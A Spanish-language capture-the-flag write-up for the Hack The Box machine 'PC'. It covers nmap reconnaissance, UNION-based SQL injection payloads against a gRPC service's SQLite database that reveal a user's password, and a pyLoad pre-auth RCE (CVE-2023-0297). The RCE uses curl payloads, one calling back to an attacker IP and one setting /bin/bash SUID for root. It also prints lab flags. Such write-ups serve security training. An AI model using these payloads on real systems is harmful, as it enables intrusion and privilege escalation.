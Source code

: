 ```yaml
---
title: PC HTB
date: 2023-07-19
tier: easy
author: naibu3
---
```


# Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.214
```
```nmap
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

Ahora tratamos de detectar versiones y servicios:

```bash
sudo nmap -sCV -p22,50051 -n -Pn 10.10.11.214
```
```nmap
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```

Vemos que se trata de un puerto bastante raro. Además si tratamos de comunicarnos con [[curl]], nos da el siguiente mensaje de error:

```curl
Received HTTP/0.9 when not allowed
```

Si buscamos el error y *service*, encontraremos que puede tratarse de un servicio [[gRPC]]. Además, en este [artículo](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9) se detalla bastante. Podemos utilizar la herramienta [[grpcurl]], pero es más cómoda [[grpcui]]. Así que la instalamos y utilizamos el siguiente comando:

```bash
grpcui -plaintext 10.10.11.214:50051
```

Se nos abrirá en el navegador una pestaña mediante la cuál podremos tramitar peticiones a la API. Si tratamos de hacer *login* con las credenciales *admin:admin*, veremos que nos dan un *Jason Web Token* ([[JWT]]) y un *ID*. Ahora, si tratamos de hacer una petición a *getInfo*, pasando el ID y el JWT, veremos un mensaje de error `Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable`. Si tratamos de capturar la petición con [[burpsuite]] y probamos con una inyección SQL ([[SQLI]]) como `OR 1=1-- -`, veremos que nos reporta un error, dándonos la pista de que pueda ser vulnerable a [[SQLI]].

# Explotación

Vamos a tratar de enumerar la base de datos, para ver que tipo de BD se trata, probaremos distintas funciones de cada gestor (puedes verlas en [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)). Si probamos con una de **SQLite**:

```sql
542 UNION SELECT sqlite_version()=sqlite_version()-- -
```

Vemos que funciona, por lo que el gestor es **SQLite**. Vamos a tratar ahora de enumerar las bases de datos (utilizaremos las inyecciones de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)):

```sql
542 UNIoN SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

En la respuesta vemos dos tablas **accounts** y **messages**. Vamos a tratar de ver qué columnas hay en **accounts**:

```sql
542 UNIoN SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'-- -
```

Y vemos que hay dos columnas **username** y **password**. Ya podemos directamente tratar de listar los usuarios (debemos utilizar *group_concat*):

```sql
542 UNION SELECT group_concat(username) FROM accounts-- -
```

Y vemos que existen dos usuarios **admin** y **sau**. Vamos a tratar de listar sus contraseñas:

```sql
542 UNIoN SELECT group_concat(password) From accounts WHERE username='sau'-- -
```

Para *admin* ya sabíamos que era *admin*, y tenemos que para **sau** es **HereIsYourPassWord1431**. Si tratamos de acceder por [[22-ssh]], lograremos acceder y ver la **flag de usuario** (`83508536f23f17e1e05c57c82ed1c8cb`).

# Escalada de privilegios

Una vez dentro comenzaremos con el [[Reconocimiento del equipo]]. Como no vemos nada sospechoso lanzamos [[linpeas]]. Entre otras cosas, podemos ver que hay un servicio corriendo en el puerto 8000:

```linpeas
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -
```

Así que hacemos [[eJPT-Glossary/port forwarding]]:

```bash
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Si lanzamos [[nmap]]:

```bash
nmap -p8000 -sCV localhost
```
```nmap
PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
```

Vemos que está corriendo un servicio [[80-http]] con lo que parece un **pyLoad**. Si accedemos via navegador, confirmamos que se trata de dicho servicio. Veremos un panel de login en el que no parecen funcionar las credenciales por defecto.

Con una búsqueda por internet encontramos el siguiente [artículo](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). Vemos que tenemos un [[RCE]]. Podemos comprobarlo montándonos un servidor http con [[python 1]] y tratando de mandarnos una petición desde el servidor:

```bash
curl -i -s -k -X $'POST' \                                                               
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.16.114\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \ 
    $'http://localhost:8000/flash/addcrypted2'
```

Como recibimos la respuesta correctamente, podemos tratar de cambiar los privilegios de la bash:

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20+4777%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```

Y ya con un `bash -p` ya seríamos root. La flag es (`a31593104e9b23a59b146166fc794f72`).